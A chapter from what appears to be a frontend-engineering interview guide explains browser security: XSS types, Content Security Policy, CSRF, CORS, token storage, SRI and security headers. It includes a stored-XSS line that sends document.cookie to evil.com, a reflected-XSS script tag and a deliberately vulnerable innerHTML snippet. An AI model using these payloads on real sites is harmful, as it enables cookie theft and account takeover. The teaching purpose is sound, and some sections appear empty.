




# Chapter 13: Security

> Security in frontend is not "the backend's job." XSS, CSRF, insecure storage, and misconfigured headers are all frontend concerns that a UI architect must own.

## Why This Matters for UI Architects

The frontend is the attack surface. Every input field, every API call, every stored token is a potential vector. A UI architect must design systems that are secure by default — not bolted on as an afterthought. Interviewers expect you to identify vulnerabilities and articulate defense-in-depth strategies.

---

## Cross-Site Scripting (XSS)

The most common and dangerous frontend vulnerability. An attacker injects malicious JavaScript that executes in other users' browsers.

### Types of XSS



### Stored XSS

Malicious script saved in the database and served to every user who views the page.

```
Attacker posts comment: <script>fetch('https://evil.com/steal?cookie=' + document.cookie)</script>

Every user viewing this comment executes the script → cookies stolen
```

**Attack vector:** User-generated content (comments, profiles, messages, file names)

### Reflected XSS

Malicious script in the URL, reflected back in the server response.

```
https://example.com/search?q=<script>alert('xss')</script>

Server renders: "Results for: <script>alert('xss')</script>"
```

**Attack vector:** Search queries, error messages, URL parameters rendered in HTML

### DOM-Based XSS

JavaScript reads untrusted data and writes it to the DOM without sanitization.

```typescript
// Vulnerable: innerHTML with user input
const userInput = new URLSearchParams(location.search).get('name');
document.getElementById('greeting').innerHTML = `Hello, ${userInput}!`;
// URL: ?name=
```

### XSS Prevention

| Defense | How | Scope |
|---|---|---|
| **Output encoding** | Encode HTML entities before rendering | All user-generated content |
| **Framework auto-escaping** | React, Angular, Vue auto-escape by default | Template rendering |
| **Avoid innerHTML** | Use textContent or framework bindings | DOM manipulation |
| **Sanitize HTML** | Use DOMPurify for rich text | When HTML rendering is required |
| **CSP headers** | Restrict script sources | Browser-enforced policy |
| **httpOnly cookies** | Scripts can't access cookies | Cookie theft prevention |

```typescript
// React: safe by default (auto-escapes)
<p>{userInput}</p>  // Renders as text, not HTML

// React: DANGEROUS — avoid unless absolutely necessary
<div dangerouslySetInnerHTML={{ __html: sanitizedHtml }} />

// If you must render HTML, sanitize first:
import DOMPurify from 'dompurify';
const clean = DOMPurify.sanitize(dirtyHtml);
<div dangerouslySetInnerHTML={{ __html: clean }} />
```

```typescript
// Angular: auto-sanitizes by default
// Using [innerHTML] triggers Angular's built-in sanitizer
<div [innerHTML]="userContent"></div>

// To bypass (ONLY when you've manually sanitized):
constructor(private sanitizer: DomSanitizer) {}
trustedHtml = this.sanitizer.bypassSecurityTrustHtml(sanitizedContent);
```

---

## Content Security Policy (CSP)

A powerful HTTP header that tells the browser which resources are allowed to load.

```
Content-Security-Policy:
  default-src 'self';
  script-src 'self' 'nonce-abc123';
  style-src 'self' 'unsafe-inline';
  img-src 'self' https://cdn.example.com;
  connect-src 'self' https://api.example.com;
  font-src 'self' https://fonts.gstatic.com;
  frame-ancestors 'none';
  base-uri 'self';
  form-action 'self';
```

### Key Directives

| Directive | Controls | Example |
|---|---|---|
| `default-src` | Fallback for all resource types | `'self'` (same origin only) |
| `script-src` | JavaScript sources | `'self' 'nonce-abc123'` |
| `style-src` | CSS sources | `'self' 'unsafe-inline'` (needed for many frameworks) |
| `img-src` | Image sources | `'self' https://cdn.example.com data:` |
| `connect-src` | Fetch/XHR/WebSocket targets | `'self' https://api.example.com` |
| `frame-ancestors` | Who can embed this page in an iframe | `'none'` (prevents clickjacking) |

### Nonce-Based CSP

Instead of allowing all inline scripts (`unsafe-inline`), generate a unique nonce per request:

```html
<!-- Server generates unique nonce per request -->
<script nonce="abc123">
  // This inline script is allowed because it has the matching nonce
</script>

<!-- CSP header -->
Content-Security-Policy: script-src 'nonce-abc123'
```

### CSP Report-Only Mode

Test your CSP without breaking anything:

```
Content-Security-Policy-Report-Only: default-src 'self'; report-uri /csp-reports
```

The browser reports violations but doesn't block them. Deploy this first to find issues.

---

## Cross-Site Request Forgery (CSRF)

An attacker tricks a user's browser into making authenticated requests to your site.

```mermaid
sequenceDiagram
    participant User as User (logged into bank.com)
    participant Evil as evil.com
    participant Bank as bank.com

    User->>Evil: Visit evil.com
    Evil->>User: Render page with hidden form
    Note over Evil: <form action="bank.com/transfer" method="POST">
    Evil->>Bank: Auto-submit: POST /transfer { to: attacker, amount: 10000 }
    Note over Bank: Browser sends bank.com cookies automatically!
    Bank->>Bank: Transfer executes (authenticated via cookie)
```



### CSRF Prevention

| Defense | How | Notes |
|---|---|---|
| **CSRF tokens** | Unique token per session/form, validated server-side | Standard for session-based auth |
| **SameSite cookies** | `SameSite=Lax` or `Strict` | Prevents cookies from being sent on cross-site requests |
| **Double-submit cookie** | Send token in both cookie and header, server compares | Stateless CSRF protection |
| **Custom headers** | Require custom header (e.g., `X-Requested-With`) | Simple APIs can't be triggered from forms |

```typescript
// SameSite cookie — primary defense
Set-Cookie: session=abc123; HttpOnly; Secure; SameSite=Lax; Path=/

// CSRF token in meta tag (for AJAX requests)
<meta name="csrf-token" content="unique-token-per-session">

// Include in API calls
fetch('/api/transfer', {
  method: 'POST',
  headers: {
    'X-CSRF-Token': document.querySelector('meta[name="csrf-token"]').content,
  },
  body: JSON.stringify(data),
});
```

**SameSite=Lax** (default in modern browsers): Cookies sent on top-level navigations (GET) but NOT on cross-site POST requests. This prevents most CSRF attacks.

---

## Cross-Origin Resource Sharing (CORS)

Controls which origins can access your API from a browser.



### CORS Headers

| Header | Purpose | Example |
|---|---|---|
| `Access-Control-Allow-Origin` | Which origins can access | `https://app.example.com` |
| `Access-Control-Allow-Methods` | Which HTTP methods allowed | `GET, POST, PUT, DELETE` |
| `Access-Control-Allow-Headers` | Which request headers allowed | `Content-Type, Authorization` |
| `Access-Control-Allow-Credentials` | Allow cookies/auth | `true` |
| `Access-Control-Max-Age` | Cache preflight response (seconds) | `86400` |

**Common mistakes:**
- `Access-Control-Allow-Origin: *` with `Credentials: true` — browsers reject this combination
- Not handling OPTIONS preflight requests — POST requests fail
- Overly permissive origins — allows any site to call your API

---

## Authentication Security

### Secure Token Storage (Recap from Chapter 6)



**Recommended pattern for SPAs:**



### OAuth 2.0 with PKCE for SPAs

SPAs can't keep secrets, so use PKCE (Proof Key for Code Exchange):

1. Generate random `code_verifier` (client-side)
2. Hash it to create `code_challenge`
3. Send `code_challenge` with auth request
4. Exchange auth code + original `code_verifier` for tokens
5. Server verifies `hash(code_verifier) === code_challenge`

This prevents authorization code interception even without a client secret.

### Session Timeout Strategy

| Token | Lifetime | Storage | Refresh |
|---|---|---|---|
| Access token | 15 minutes | Memory (JS variable) | Via refresh token |
| Refresh token | 7 days | httpOnly secure cookie | Re-login |
| Session | 30 min idle timeout | Server-side (Redis) | Activity resets timer |

---

## Subresource Integrity (SRI)

Verify that externally loaded scripts haven't been tampered with:

```html
<script
  src="https://cdn.jsdelivr.net/npm/lodash@4.17.21/lodash.min.js"
  integrity="sha384-...hash..."
  crossorigin="anonymous"
></script>
```

If the CDN is compromised and serves modified JavaScript, the browser refuses to execute it.

**Generate SRI hashes:**

```bash
cat file.js | openssl dgst -sha384 -binary | openssl base64 -A
```

---

## Dependency Security

Third-party packages are a major attack vector (supply chain attacks).

### Defense Layers

| Layer | Tool | What It Does |
|---|---|---|
| **Audit** | `npm audit`, `pnpm audit` | Find known vulnerabilities in dependencies |
| **Lock file** | `package-lock.json` | Pin exact versions, prevent surprise updates |
| **Automated scanning** | Dependabot, Snyk, Socket | Continuous monitoring, auto-PRs for fixes |
| **License compliance** | license-checker, FOSSA | Ensure compatible licenses |
| **Minimal dependencies** | Manual review | Fewer deps = smaller attack surface |

### Supply Chain Attack Prevention

- **Review new dependencies** before adding (check maintainers, download count, recent activity)
- **Pin versions** in production (`"lodash": "4.17.21"` not `"^4.17.0"`)
- **Use lock files** and commit them
- **Enable npm provenance** to verify package build origin
- **Consider vendoring** critical dependencies

---

## iframe Security

### Sandboxing

```html
<!-- Restrict what the iframe can do -->
<iframe
  src="https://third-party.com/widget"
  sandbox="allow-scripts allow-same-origin"
  referrerpolicy="no-referrer"
  loading="lazy"
></iframe>
```

### Sandbox Permissions

| Permission | What It Allows |
|---|---|
| `allow-scripts` | Run JavaScript |
| `allow-same-origin` | Access same-origin resources |
| `allow-forms` | Submit forms |
| `allow-popups` | Open new windows |
| `allow-modals` | Use alert/confirm/prompt |
| (none) | Maximum restriction |

### Preventing Clickjacking

```
# Prevent your site from being embedded in iframes
X-Frame-Options: DENY
Content-Security-Policy: frame-ancestors 'none'
```

---

## Security Headers Checklist

| Header | Value | Purpose |
|---|---|---|
| `Content-Security-Policy` | (see above) | XSS mitigation |
| `Strict-Transport-Security` | `max-age=31536000; includeSubDomains` | Force HTTPS |
| `X-Content-Type-Options` | `nosniff` | Prevent MIME-type sniffing |
| `X-Frame-Options` | `DENY` or `SAMEORIGIN` | Prevent clickjacking |
| `Referrer-Policy` | `strict-origin-when-cross-origin` | Control referrer leakage |
| `Permissions-Policy` | `camera=(), microphone=(), geolocation=()` | Disable unused browser APIs |
| `Cross-Origin-Opener-Policy` | `same-origin` | Prevent cross-origin window references |
| `Cross-Origin-Resource-Policy` | `same-origin` | Prevent cross-origin resource loading |

---

## Security Audit Checklist for UI Architects

- [ ] All user input sanitized before rendering (XSS)
- [ ] CSP headers configured (at least report-only mode)
- [ ] Authentication tokens in httpOnly cookies (not localStorage)
- [ ] CSRF protection enabled (SameSite cookies + CSRF tokens)
- [ ] CORS configured with specific origins (not `*`)
- [ ] HTTPS enforced via HSTS
- [ ] Dependencies audited (`npm audit` in CI)
- [ ] Third-party scripts use SRI
- [ ] Sensitive data not exposed in client-side code
- [ ] Error messages don't leak implementation details
- [ ] Rate limiting on authentication endpoints
- [ ] File uploads validated (type, size, content)
- [ ] No secrets in frontend bundles (API keys, passwords)

---

## Interview Tips

1. **Show defense-in-depth** — "For XSS prevention, I rely on multiple layers: framework auto-escaping (Angular's sanitizer), CSP headers restricting script sources, httpOnly cookies preventing token theft, and input validation on the server. No single layer is sufficient alone."

2. **Know OWASP Top 10** — Be familiar with the top web vulnerabilities. XSS (#3), CSRF, injection, broken auth — these come up frequently.

3. **Explain the "why"** — "We store the access token in memory, not localStorage, because any XSS vulnerability would let an attacker read localStorage. Memory is cleared on page close and isn't accessible to injected scripts."

4. **Discuss practical trade-offs** — "A strict CSP with nonces is most secure but requires server-side rendering to generate nonces. For a fully static SPA, we use hash-based CSP instead."

5. **Connect to architecture** — "Our micro-frontend architecture uses iframe sandboxing for the third-party payment widget. This isolates it completely — even if the widget has an XSS vulnerability, it can't access our app's DOM or cookies."

---

## Key Takeaways

- XSS is the #1 frontend threat — rely on framework auto-escaping, CSP, and httpOnly cookies as defense layers
- CSP is the most powerful browser security mechanism — start with report-only, then enforce
- CSRF is prevented by SameSite cookies (default in modern browsers) + CSRF tokens for older browsers
- Store access tokens in memory, refresh tokens in httpOnly cookies — never localStorage
- OAuth 2.0 + PKCE is the standard for SPA authentication
- CORS should be configured with specific origins, not wildcards
- Dependencies are a supply chain risk — audit regularly, pin versions, use lock files
- Security headers (HSTS, CSP, X-Frame-Options, etc.) are non-negotiable for production
- iframe sandboxing isolates third-party content — use it for payments, ads, and untrusted widgets
